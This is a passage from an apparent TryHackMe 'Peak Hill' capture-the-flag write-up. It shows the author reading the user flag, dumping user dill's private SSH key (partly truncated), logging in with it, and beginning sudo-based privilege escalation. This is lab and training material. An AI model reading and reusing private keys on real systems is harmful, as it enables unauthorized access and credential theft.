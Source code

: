 Navigate to the user’s directory and get the flag:

```
Cmd: ls -l /home/dill
total 4
-r--r----- 1 dill dill 33 May 15  2020 user.txt

Cmd: cat /home/dill/user.txt
[REDACTED]
```

I also get the **id_rsa** key and use it to establish another shell via **ssh** service for a better view and interaction-shell:

```
Cmd: ls -l /home/dill/.ssh/
total 12
-rw-r--r-- 1 dill dill  568 May 15  2020 authorized_keys
-rw------- 1 dill dill 2590 May 15  2020 id_rsa
-rw-r--r-- 1 dill dill  568 May 15  2020 id_rsa.pub

Cmd: cat /home/dill/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
[...]
/V7pwBay5mHnsAAAAKam9obkB4cHMxNQE=
-----END OPENSSH PRIVATE KEY-----
```

```
┌──(kali㉿kali)-[~/TryHackMe/peakhill]
└─$ ssh dill@peakhill.thm -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

28 packages can be updated.
19 updates are security updates.

Last login: Wed May 20 21:56:05 2020 from 10.1.122.133
dill@ubuntu-xenial:~$
```

## Vertical Privilege Escalation

```
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm

dill@ubuntu-xenial:/opt/peak_hill_farm$ ls -l peak_hill_farm
-rwxr-x--x 1 root root 1218056 May 15  2020 peak_hill_farm
```
